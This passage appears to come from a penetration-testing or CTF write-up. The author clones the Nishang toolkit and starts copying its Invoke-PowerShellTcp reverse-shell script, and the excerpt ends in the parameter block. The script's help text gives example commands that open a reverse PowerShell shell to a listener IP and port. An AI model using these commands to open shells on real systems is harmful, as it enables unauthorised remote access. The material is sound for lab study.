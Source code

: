 


While searching for a one-liner shell, I came across the Nishang repository on GitHub. I cloned the entire repository to /opt using:

```bash
git clone https://github.com/samratashok/nishang.git /opt/nishang
```
Next, I copied the Invoke-PowerShellTcp.ps1 script and modified it by extracting the relevant lines from the highlighted section down to the end of the script. I then updated the IP address and port to match my listener configuration.

```bash hl_lines="18 127"
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 

.DESCRIPTION
This script is able to connect to a standard netcat listening on a port when using the -Reverse switch. 
Also, a standard netcat can connect to this script Bind to a specific port.

The script is derived from Powerfun written by Ben Turner & Dave Hardy

.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.

.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 

.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

```